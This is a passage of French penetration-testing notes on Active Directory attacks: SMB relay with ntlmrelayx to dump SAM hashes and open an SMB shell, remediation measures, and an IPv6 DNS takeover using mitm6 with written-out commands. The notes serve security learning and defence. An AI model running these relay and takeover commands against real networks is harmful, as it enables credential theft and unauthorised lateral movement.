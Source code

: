 Si ça marche, on peut obtenir des hashes du fichier SAM (usernames et hashes des users locaux).
On a donc la possibilité de bouger latéralement sur la machine.

On peut aussi obtenir un shell :
- *ntlmrelayx.py -tf targets.txt -smb2support -i*
- On se connect avec Netcat au shell qui nous est indiqué dans la réponse de ntlmrelayx :
	- *nc 127.0.0.1 11001*
On est dans un shell SMB

### 2.2 Remédiation

1. Activé la signature SMB sur toutes les machines
- Pour : stop l’attaque
- Contre : peut poser des soucis de performances avec les copies de fichiers

2. Désactivé l’authentification NTLM sur le réseau
- Pour : stop l’attaque
- Contre : si Kerberos ne fonctionne plus, Windows retourne sur NTLM par défaut

3. Account tiering
- Pour : limite les admins du domaine à certaines tâches (comme se connecter uniquement aux serveurs ayant besoin d’un admin du domaine)
- Contre : implémenter la politique peut être difficile

4. Restriction sur l’admin local
- Pour : prévient le mouvement latéral
- Contre : peut entraîner une augmentation du nombre de tickets au service desk

## 3. IPv6 attack (DNS take over attack via IPv6)

### 3.1 C’est quoi ?

Une autre forme de relay, mais très reliable

IPv6 peut être activé mais personne ne fait le DNS, on prend donc la place du DNS
On peut alors avoir l’authentification au Domaine Controller via LDAP ou SMB si on relaie un domain admin.

On fait tourner mitm6 pendant 5 ou 10 minutes car ça risque de perturber l’environnement (cf : https://www.evolvesecurity.com/blog-posts/tools-of-the-trade-ipv6-dns-takeover-with-mitm6)

### 3.2 Etapes

On utilise l’outil mitm6
*cd /opt*
*git clone https://github.com/dirkjanm/mitm6*
cd dans le dossier
*pip2 install .*


On lance mitm6 : *mitm6 -d <domain name>*
On lance : *ntlmrelayx.py -6 -t ldaps://<IP domain controller> -wh exemple.domain.local -l lootme*

-wh : lorsqu'une demande NTLM est reçue par ntlmrelayx, il vérifie l'adresse IP source de la demande. Si cette adresse IP correspond à une des adresses IP spécifiées avec le flag -wh, alors ntlmrelayx procédera au relaie de l'authentification NTLM vers cette cible spécifique.
